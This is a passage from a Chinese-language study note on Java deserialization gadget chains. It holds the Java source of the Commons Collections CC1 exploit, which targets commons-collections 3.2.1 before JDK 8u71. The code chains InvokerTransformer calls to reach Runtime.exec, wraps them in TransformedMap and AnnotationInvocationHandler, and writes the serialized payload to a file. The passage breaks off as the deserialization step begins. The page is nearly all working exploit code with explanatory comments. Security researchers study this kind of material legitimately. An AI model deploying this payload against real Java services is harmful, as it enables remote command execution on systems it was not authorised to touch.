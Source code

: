 # CC链

## CC1-TransformedMap-commons.collections 3.2.1\<JDK8u71

### 代码

```java
package org.cc.cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {
        //1.客户端构建攻击代码
        //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChina
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //反射机制调用AnnotationInvocationHandler类的构造函数
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        //取消构造函数修饰符限制
        ctor.setAccessible(true);
        //获取AnnotationInvocationHandler类实例
        Object instance = ctor.newInstance(Target.class, outerMap);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(instance);

        //2.服务端读取文件，反序列化，模拟网络传输
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
```